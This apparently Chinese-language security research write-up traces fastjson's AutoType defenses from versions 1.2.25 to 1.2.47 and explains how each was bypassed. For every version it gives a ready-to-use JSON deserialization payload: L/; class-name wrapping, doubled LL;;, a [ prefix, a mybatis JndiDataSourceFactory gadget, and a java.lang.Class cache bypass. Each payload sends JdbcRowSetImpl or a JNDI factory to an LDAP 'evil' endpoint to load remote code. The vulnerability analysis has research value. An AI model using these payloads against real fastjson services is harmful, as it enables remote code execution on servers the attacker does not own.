










# fastjson 1.2.25-1.2.41

前面PayLoad能成功触发，主要是fastjson的AutoType机制，即用户可以控制要反序列化的类`@type`

**FastJson1.2.25** 中引入了`checkAutoType`安全机制，且默认关闭`autoTypeSupport`，不能反序列化任意类。就算打开了`AutoType`，也有内置的黑名单来防止恶意反序列化，fastjson还提供了添加黑名单的接口。

查看该版本的`com.alibaba.fastjson.parser.ParserConfig`



* autoTypeSupport：是否开启任意类的反序列化，默认false
* denyList：反序列化黑名单
* acceptList：反序列化白名单

正常情况有两种方式开启AutoType

* JVM启动参数
  `-Dfastjson.parser.autoTypeSupport=true`
* 代码设置
  `ParserConfig.getGlobalInstance().setAutoTypeSupport(true); `
* 在fastjson.properties中添加
  `fastjson.parser.autoTypeAccept=ExploitableClass`

`DefaultJSONParser#parseObject`中增加了`config.checkAutoType()`



若开了`autoType`，先检验白名单，若命中直接加载类，接着再检验黑名单



黑名单如下：



但最后还是判断了一遍`autoTypeSupport`，false抛出异常



绕过：类名添加`L`和`;`（需开启`AutoTypeSupport`）

> { 
>
> ​	"@type":"Lcom.sun.rowset.JdbcRowSetImpl;",
>
> ​	"dataSourceName":"ldap://127.0.0.1:8099/evil", 
>
> ​	"autoCommit":true 
>
> }

`checkAutoType` 跟进 `TypeUtils.loadClass`



若以`L`开头，以`;`结尾，去除这两个字符后再加载类。

# fastjson 1.2.42

将黑名单类改成HASH的方式来进行对比，这是为防止安全研究员根据黑名单的类进行反向研究。

先说绕过方式，双写`L`和`;`

> { 
>
> ​	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",
>
> ​	"dataSourceName":"ldap://127.0.0.1:8099/evil", 
>
> ​	"autoCommit":true 
>
> }



判断收尾是`L`和`;`，去除第一层，接着进`TypeUtils.loadclass()`去除第二层

# fastjson 1.2.43

该版本检查若类名LL开头就抛出异常。



用`[`绕过

> { 
>
> ​	"@type":"[com.sun.rowset.JdbcRowSetImpl"[,
>
> ​	{"dataSourceName":"ldap://127.0.0.1:8099/evil", 
>
> ​	"autoCommit":true 
>
> }

# fastjson 1.2.44

`checkAutoType` 中添加了新的判断，如果类名以 `[` 开始则直接抛出异常。

无法绕过

# fastjson 1.2.45

> { 
>
> ​	"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory",
>
> ​	"properties":{        
>
> ​			"data_source":"ldap://127.0.0.1:8099/evil"    
>
> ​	}
>
> }

mybatis版本需为3.x.x~3.5.0

`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`不在黑名单中

# 绕过autoType

> {
>     "a":{
>         "@type":"java.lang.Class",
>         "val":"com.sun.rowset.JdbcRowSetImpl"
>     },
>     "b":{
>         "@type":"com.sun.rowset.JdbcRowSetImpl",
>         "dataSourceName":"ldap://127.0.0.1:8099/evil",
>         "autoCommit":true
>     }
> }

> fastjson 1.2.25 ~ 1.2.47

绕过点还是在`checkAutoType`



autoTypeSupport为true时，fastjson首先判断类是否在白名单内，命中则加载该类

接着判断类是否在黑名单内且TypeUtils.mappings中没有该类缓存，才抛出异常。

接着继续尝试在`TypeUtils.mappings`中查找缓存的class，也在deserializers中查找



deserializers找不到可以利用的地方。

看向`TypeUtils.getClassFromMapping`，从mappings中获取Class，向mappings中put的函数有`TypeUtils.loadClass`

```java
public static Class<?> loadClass(String className, ClassLoader classLoader, boolean cache) {
        // 非空判断
        if(className == null || className.length() == 0){
            return null;
        }
        // 防止重复添加
        Class<?> clazz = mappings.get(className);
        if(clazz != null){
            return clazz;
        }
        // 判断 className 是否以 [ 开头
        if(className.charAt(0) == '['){
            Class<?> componentType = loadClass(className.substring(1), classLoader);
            return Array.newInstance(componentType, 0).getClass();
        }
        // 判断 className 是否 L 开头 ; 结尾
        if(className.startsWith("L") && className.endsWith(";")){
            String newClassName = className.substring(1, className.length() - 1);
            return loadClass(newClassName, classLoader);
        }
        try{
            // 如果 classLoader 非空，cache 为 true 则使用该类加载器加载并存入 mappings 中
            if(classLoader != null){
                clazz = classLoader.loadClass(className);
                if (cache) {
                    mappings.put(className, clazz);
                }
                return clazz;
            }
        } catch(Throwable e){
            e.printStackTrace();
            // ....
        }
        // 如果失败，或没有指定 ClassLoader ，则使用当前线程的 contextClassLoader 来加载类，也需要 cache 为 true 才能写入 mappings 中
        try{
            ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
            if(contextClassLoader != null && contextClassLoader != classLoader){
                clazz = contextClassLoader.loadClass(className);
                if (cache) {
                    mappings.put(className, clazz);
                }
                return clazz;
            }
        } catch(Throwable e){
            // ...
        }
        // 如果还是失败，则使用 Class.forName 来获取 class 对象并放入 mappings 中
        try{
            clazz = Class.forName(className);
            mappings.put(className, clazz);
            return clazz;
        } catch(Throwable e){
            // ....
        }
        return clazz;
    }
```

若能控制该方法的参数，就能向mappings中写入任意类名。

`com.alibaba.fastjson.serializer.MiscCodec#deserialze` 方法，这个类是用来处理一些乱七八糟类的反序列化类，包括 `Class.class` 类
